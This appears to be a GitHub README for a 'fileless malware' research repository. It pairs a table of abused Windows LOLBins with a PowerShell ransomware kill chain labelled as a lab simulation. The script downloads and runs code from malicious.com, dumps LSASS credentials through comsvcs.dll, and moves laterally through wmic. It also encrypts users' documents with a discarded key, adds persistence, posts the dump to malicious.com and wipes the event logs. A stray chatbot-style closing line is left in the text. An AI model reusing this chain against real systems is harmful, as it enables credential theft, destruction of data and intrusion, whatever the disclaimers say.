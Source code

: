 

# NSFW: Fileless Polymorphic Hybrid Malware & LOLBins Research

**Repository:** `P1rat3R00t/NSFW`  
**Purpose:** Educational cybersecurity research into advanced threat techniques, focusing on fileless malware and Living-Off-the-Land Binaries (LOLBins).

---

## ⚠️ Legal & Ethical Notice

> **This repository is strictly for educational, academic, and controlled research lab use.**  
> **Never deploy or test these techniques on unauthorized or production systems. Misuse may violate laws, ethics, and professional standards.**

---

![Demo Screenshot](https://github.com/user-attachments/assets/f93a65bd-d000-41f0-a941-631f047417e4)

---

## 🧠 Overview: Fileless Malware & LOLBins

- **Fileless malware** operates entirely in memory, avoiding disk writes to evade detection by antivirus and EDR solutions.
- **LOLBins** (Living Off the Land Binaries) are legitimate Windows binaries abused by attackers for stealthy, malicious operations. Their trusted status makes detection more challenging.

---

## ⚙️ Common LOLBins and Abuse Patterns

| LOLBin                      | Abused For                | ATT&CK Tactics                   |
|-----------------------------|---------------------------|----------------------------------|
| `rundll32.exe`              | DLL execution             | Code execution, EDR bypass       |
| `mshta.exe`                 | Run HTA payloads          | Script execution, sandbox evasion|
| `regsvr32.exe`              | Load COM DLLs             | Fileless execution, C2 proxy     |
| `wmic.exe`                  | Remote command execution  | Process launch, lateral movement |
| `cmd.exe` / `powershell.exe`| Script runners            | Payload staging, persistence     |
| `msbuild.exe`               | Inline C# compile/exec    | Fileless malware loading         |
| `certutil.exe`              | Download/decode files     | Exfiltration, staging            |
| `bitsadmin.exe`             | Remote file fetch         | Delivery, task persistence       |
| `schtasks.exe`              | Task scheduling           | Privilege escalation, persistence|
| `esentutl.exe`              | Copy/exec payloads        | Stealth ops, exfiltration        |

---

## 🧬 Simulated Kill Chain: 100% Fileless Ransomware (Lab Example)

*Technique mapping via [MITRE ATT&CK](https://attack.mitre.org/)*

> **Disclaimer:** The following PowerShell sequence is a synthetic, safe example for red team development in a secure lab. **Never execute outside a controlled environment.**

<details>
<summary>🔐 Click to expand PowerShell Simulation Example</summary>

```powershell
# 🎯 Initial Access (T1190)
$payloadUrl = "http://malicious.com/dropper.ps1"
IEX(New-Object Net.WebClient).DownloadString($payloadUrl)

# ⚡ Execution (T1059.001)
$encPayload = "[Base64-Encoded Payload]"
$decodedPayload = [System.Convert]::FromBase64String($encPayload)
[System.Reflection.Assembly]::Load($decodedPayload)

# 🔓 Privilege Escalation (T1548)
Start-Process -FilePath "powershell.exe" -ArgumentList "-ExecutionPolicy Bypass -File C:\Windows\Temp\elevate.ps1" -Verb RunAs

# 🧪 Credential Access (T1003.001)
Invoke-Expression "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Windows\Temp\lsass.dmp full"

# 🔍 Discovery (T1082)
$sysInfo = Get-WmiObject Win32_ComputerSystem | Select Manufacturer, Model, Name, Domain, UserName
$networkInfo = Get-NetAdapter | Select Name, MacAddress, Status
Write-Output $sysInfo; Write-Output $networkInfo

# 🌐 Lateral Movement (T1021.001)
cmd.exe /c "wmic /node:targetPC process call create 'powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\payload.ps1'"

# 💣 Impact: File Encryption (T1486)
$targetFiles = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.txt,*.docx,*.xls -Recurse
foreach ($file in $targetFiles) {
    $content = Get-Content $file.FullName -Raw
    $key = (1..32 | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) }) -join ''
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [System.Text.Encoding]::UTF8.GetBytes($key.PadRight(32, 'X'))
    $aes.IV = New-Object byte[] 16
    $encryptor = $aes.CreateEncryptor()
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($content)
    $encryptedContent = [Convert]::ToBase64String($encryptor.TransformFinalBlock($bytes, 0, $bytes.Length))
    Set-Content -Path $file.FullName -Value $encryptedContent
}

# 📌 Persistence (T1547.001)
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MaliciousProcess" -Value "powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1"
schtasks /create /tn "MaliciousTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1" /sc onlogon /rl highest

# 📤 Exfiltration (T1041)
$exfilData = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\Temp\lsass.dmp"))
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method Post -Body $exfilData

# 🧹 Defense Evasion (T1070)
Remove-Item -Path C:\Windows\Temp\* -Force -Recurse
wevtutil cl System; wevtutil cl Security; wevtutil cl Application
cmd.exe /c "attrib +h +s C:\Windows\Temp\*"
```

</details>

---

## 🖥️ TeamViewer as a RAT: Summary

TeamViewer, a legitimate remote desktop tool, can be abused as a Remote Access Trojan (RAT) through weak configurations, credential theft, or exploitation of software vulnerabilities.

---

## 🚀 Getting Started

1. **Clone the repository:**
   ```bash
   git clone https://github.com/P1rat3R00t/NSFW.git
   cd NSFW
   ```
2. **Review all code and scripts before executing anything.**
3. **Set up a safe, isolated lab environment** (physical or virtual) before conducting any testing.

---

## 🤝 Contributing

Contributions for improving documentation, research, and detection techniques are welcome!  
Please open an issue or pull request.  
**Do not submit or request real malware samples.**

---

## 🧭 Additional Resources

- 🛠️ [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
- 🧬 [LOLGEN – Generate LOLBin Abuse Chains](https://lolgen.hdks.org/)
- 🔍 [MITRE ATT&CK: S0697](https://attack.mitre.org/software/S0697/)
- 💥 [PrintNightmare Technical Dive](https://itm4n.github.io/printnightmare-not-over/)
- 💀 [Print Spooler Exploit Overview](https://cybersparksdotblog.wordpress.com/2024/11/25/windows-print-spooler-eop-the-printnightmare-of-2021/)
- 🔗 [DLL Injection Reference](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
- 🦠 [Fileless Malware on Wikipedia](https://en.wikipedia.org/wiki/Fileless_malware)
- 🖨️ [Printer Driver Exploit Repo](https://github.com/jacob-baines/concealed_position)

---

## 🛡️ Final Note

This repository is for cybersecurity researchers, malware analysts, and red teamers.  
**Do not use for malicious purposes or outside legal boundaries. Always comply with your country’s laws and organizational policies.**



Let me know if you'd like further customization or want to add badges, contact info, or more usage details!
